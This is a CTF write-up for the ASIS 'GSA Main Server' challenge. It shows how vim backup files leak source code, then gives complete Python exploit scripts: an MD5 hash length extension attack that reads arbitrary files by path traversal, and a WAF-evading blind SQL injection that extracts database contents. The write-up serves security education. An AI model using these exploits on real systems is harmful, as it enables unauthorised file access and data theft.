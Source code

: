 # GSA Main Server

The participants were given a portal containing some information and it has some features such as downloading attachments and etc. After spending some time on the task, I notieced a comment in the last line of index.php file:

```
<!--# vim: syntax=apache ts=4 sw=4 sts=4 sr noet-->
```

Indicating the file has been modified by vim, so I checked `index.php~`, nothing useful but:
```
<? require 'html/header.php'; ?>
<? require 'functions.php' ?>
<? require 'infoDB.php' ?>
```
I checked all pages by adding ~ and, `functions.php~` was there:
```
<?php

// database configuration
include 'configuration.php';

// waf to protect the web attacks
include 'waf.php';

// connection to the database
$mysqli = new mysqli(__DB_HOST, __DB_USER, __DB_PASS, __DB_NAME);

// signature function
// store __KEY in safe place
// __KEY is stored in configuration.php
// do not change the __KEY if you don't know how the system workes, the installation process produces secure 10-chacacter key
function makeSignature($fileName){
    return md5(md5(__KEY) . $fileName);
}

// function to get header data by HTTP packet
function getHeaderData($headers, $name){
    return (array_key_exists($name, $headers))?$headers[$name]:false;
}

// parsing the database resultst
function resultToArray($result){
    $rows = array();
    while($row = $result->fetch_assoc()){
        $rows[] = $row;
    }
    return $rows;
}

// end
```
On the other side, in portal (*http://178.62.34.76/showInformation/2*) there was an attachment to download:

```
GET /getAttachment/file.txt HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close
```

It had two important parts, filename which was given by URL and `X-Signature: beb2e68c628653c72abcb388b078cfda` which prevented from changing file name:
```
GET /getAttachment/blahblah HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close


Rsponse: Error: Invalid Signature has been given
```

Back to the functions.php, if makeSignature makes the signature, there are two notes:

+ The key cannot be brute forced, because the length was 10 character as mentioned in comment
+ The function was vulnerbale to Hash Length Extension

So I used hashpumpy library to exploit the hole:

```
import requests
import hashpumpy
import urllib
import sys

if len(sys.argv) != 2:
	print ''
	print '[>] Usage: python {} [path]'.format(sys.argv[0])
	print '[>] Example: python {} ../../../../../../etc/passwd'.format(sys.argv[0])
	print ''
	sys.exit()

new_digest, new_data = hashpumpy.hashpump('beb2e68c628653c72abcb388b078cfda', 'file.txt', '?/' + sys.argv[1] , 32)
new_data_encoded = urllib.quote_plus(urllib.quote_plus(new_data))

print ''
print '[>] New Signature: {}'.format(new_digest)
print '[>] New data: {}'.format(new_data.encode('hex'))
print '[+] Result:'
print ''
print '~~~~~~'

headers = {'X-Signature': new_digest}
response = requests.get('http://178.62.34.76/getAttachment/' + new_data_encoded, headers=headers);
print response.text;

print '~~~~~~'
print ''
```

Result:
![](1.png)

I spent much time here, figured out that two files were important to read:

+ Squid config 
+ .htaccess

The htaccess source:

```
RewriteEngine on

RewriteRule simple-php-captcha.php simple-php-captcha.php [L]

RewriteRule showInformation/(.+) /showInformation.php?informationID=$1 [L]
RewriteRule infoSubmit /informationSubmit.php [L]
RewriteRule notConfirmedInformation/(.+) /notConfirmedInformation.php?informationID=$1 [L]
RewriteRule getAttachment/(.+) /getAttachment.php?fileName=$1 [L]
RewriteRule dataSubmitted/(.+) /dataSubmitted.php [L]
RewriteRule adminer-4.3.1-en.php adminer-4.3.1-en.php [L]

#RewriteRule "searchData/(.+)" "http://gsa.dataStorage.domain/0/portalSearch/?searchURL=$1" [L]
#RewriteRule "API/(.+)" "http://gsa.API.domain/api/$1" [L]

RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.php [L]

RewriteCond %{THE_REQUEST} \.php[\ /?].*HTTP/ [NC]
RewriteRule ^.*$ index.php [L]

```

Revealing two new hosts (next questions), and some hidden path such as `notConfirmedInformation/` and etc. `infoSubmit/' path allowed to insert new information and `notConfirmedInformation/` allowed to see the information submitted. After some strugling at this stage, I found that `notConfirmedInformation/{id}` was prone to MySQL injection. However, the injection was tricky because as I deduced:

+ There was two query, first loads the page and second upgrades the view number.
+ The first one was totally secures, the second one had injection though. **The SQLi test was easy**
+ The WAF was annoying, it blocked queries had some keywords such as `union` and replaced some characters such as `space`

###### SQLi test:
http://178.62.34.76/notConfirmedInformation/265940057+and+1=1
http://178.62.34.76/notConfirmedInformation/265940057+and+1=2

Page gets loaded but `Visited` ony upgraded in first request


###### The flag:
Finnaly, I wrote a python code to exploit the injection hole:

```
import requests
import re
import sys

regex = re.compile("<b>Visited:</b> (\d+)</div>")


if len(sys.argv) != 2:
    print ''
    print '[>] Usage: python {} [id]'.format(sys.argv[0])
    print '[>] Example: python {} 265940057'.format(sys.argv[0])
    print ''
    sys.exit()

qq = "http://178.62.34.76/notConfirmedInformation/{}".format(sys.argv[1])
body = requests.get(qq).text

visited = int(regex.findall(body)[0])


#q = "(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))"
#q = "(select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())and(table_name='flag'))"
q = "(select(flag)from(flag))"

out = ""
for i in range(1,30):
    for c in range(31,126):
        qq = "http://178.62.34.76/notConfirmedInformation/"+sys.argv[1]+"-if(ord(mid("+q+","+str(i)+",1))="+str(c)+",0,2)"
        #print qq
        body = requests.get(qq).text
        #print body
        visited2 = int(regex.findall(body)[0])


        if visited + 1 == visited2:
            sys.stdout.write(chr(c)) 
            sys.stdout.flush()
            visited = visited2
            break
        if visited2==visited:
            pass
        else:
            pass
```

The Flag: ASIS{SQLi_sT1lL_Ex1sT5_G0od_j0B}

###### Contact
https://twitter.com/yshahinzadeh